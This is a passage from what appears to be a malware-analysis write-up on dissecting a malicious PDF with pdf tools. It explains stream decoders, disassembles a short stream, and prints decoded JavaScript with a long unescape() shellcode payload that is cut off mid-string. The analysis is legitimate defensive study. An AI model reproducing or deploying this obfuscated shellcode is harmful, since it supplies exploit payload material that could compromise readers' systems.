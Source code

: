 {{< /codecaption >}}

Seems like streams 1,2 and 3 are interesting. According to the tutorial ``pdfvi`` displays them.

* FlateDecode: Decompress. In Python do ``zlib.decompress``
* ASCIIHexDecode: Decode from ASCII Hex
* JBIG2Decode: Decode as a black and white image

What really threw me off was the ``JBIG2Decode`` decoder for stream 2. There was a [vulnerability](http://vrt-blog.snort.org/2009/02/have-nice-weekend-pdf-love.html) associated with it. It is too short to be the email (14 bytes). It is not compressed (lacks the magic headers). ``Pyew`` also displays the disassembly but it is not shellcode either (if it is, then I didn't recognize it). It is also not an image (hence the ``JBIG2Decode`` filter).

{{< codecaption lang="nasm" title="Stream 2" >}}
Applying Filter FlateDecode ...
Applying Filter ASCIIHexDecode ...
Applying Filter JBIG2Decode ...
Encoded Stream 2
--------------------------------------------------------------------------------
0000   00 20 50 FF 40 00 00 69 00 00 05 69 50 50          . P.@..i...iPP
--------------------------------------------------------------------------------

Show disassembly (y/n)? [n]: y
0x00000000 (02) 0020                 ADD [EAX], AH
0x00000002 (01) 50                   PUSH EAX
0x00000003 (03) ff40 00              INC DWORD [EAX+0x0]
0x00000006 (03) 0069 00              ADD [ECX+0x0], CH
0x00000009 (01) 00                   DB 0x0
0x0000000a (01) 05                   DB 0x5
0x0000000b (01) 69                   DB 0x69
0x0000000c (01) 50                   PUSH EAX
0x0000000d (01) 50                   PUSH EAX

{{< /codecaption >}}

Let's take a look at stream 1 using ``pdfvi``.

{{< codecaption lang="js" title="Stream 1" >}}

[0x00000000]> pdfvi
Applying Filter FlateDecode ...
Applying Filter ASCIIHexDecode ...
Encoded Stream 1
--------------------------------------------------------------------------------
    var HdPN = "";
    var zNfykyBKUZpJbYxaihofpbKLkIDcRxYZWhcohxhunRGf = "";

    // important
    var IxTUQnOvHg = unescape("%u72f9%u4649%u1525%u7f0d%u3d3c%ue084%ud62a%ue139%
ua84a%u76b9%u9824%u7378%u7d71%u757f%u2076%u96d4%uba91%u1970%ub8f9%ue232%u467b%u9
ba8%ufe01%uc7c6%ue3c1%u7e24%u437c%ue180%ub115%ub3b2%u4f66%u27b6%u9f3c%u7a4e%u412
d%ubbbf%u7705%uf528%u9293%u9990%ua998%u0a47%u14eb%u3d49%u484b%u372f%ub98d%u3478%
u0bb4%ud5d2%ue031%u3572%ud610%u6740%u2bbe%u4afd%u041c%u3f97%ufc3a%u7479%u421d%ub
7b5%u0c2c%u130d%u25f8%u76b0%u4e79%u7bb1%u0c66%u2dbb%u911c%ua92f%ub82c%u8db0%u0d7
e%u3b96%u49d4%ud56b%u03b7%ue1f7%u467d%u77b9%u3d42%u111d%u67e0%u4b92%ueb85%u2471%
u9b48%uf902%u4f15%u04ba%ue300%u8727%u9fd6%u4770%u187a%u73e2%ufd1b%u2574%u437c%u4
190%u97b6%u1499%u783c%u8337%ub3f8%u7235%u693f%u98f5%u7fbe%u4a75%ub493%ub5a8%u21b
f%ufcd0%u3440%u057b%ub2b2%u7c71%u814e%u22e1%u04eb%u884a%u2ce2%u492d%u8d42%u75b3%
uf523%u727f%ufc0b%u0197%ud3f7%u90f9%u41be%ua81c%u7d25%ub135%u7978%uf80a%ufd32%u7
69b%u921d%ubbb4%u77b8%u707e%u4073%u0c7a%ud689%u2491%u1446%u9fba%uc087%u0dd4%u4bb
0%ub62f%ue381%u0574%u3fb9%u1b67%u93d5%u8396%u66e0%u47b5%u98b7%u153c%ua934%u3748%
u3d27%u4f75%u8cbf%u43e2%ub899%u3873%u7deb%u257a%uf985%ubb8d%u7f91%u9667%ub292%u4
879%u4a3c%ud433%u97a9%u377e%ub347%u933d%u0524%u9f3f%ue139%u3571%u23b4%ua8d6%u881
4%uf8d1%u4272%u76ba%ufd08%ube41%ub54b%u150d%u4377%u1174%u78e3%ue020%u041c%u40bf%
ud510%ub727%u70b1%uf52b%u222f%u4efc%u989b%u901d%ub62c%u4f7c%u342d%u0c66%ub099%u7
b49%u787a%u7f7e%u7d73%ub946%ub091%u928d%u90bf%u21b7%ue0f6%u134b%u29f5%u67eb%u257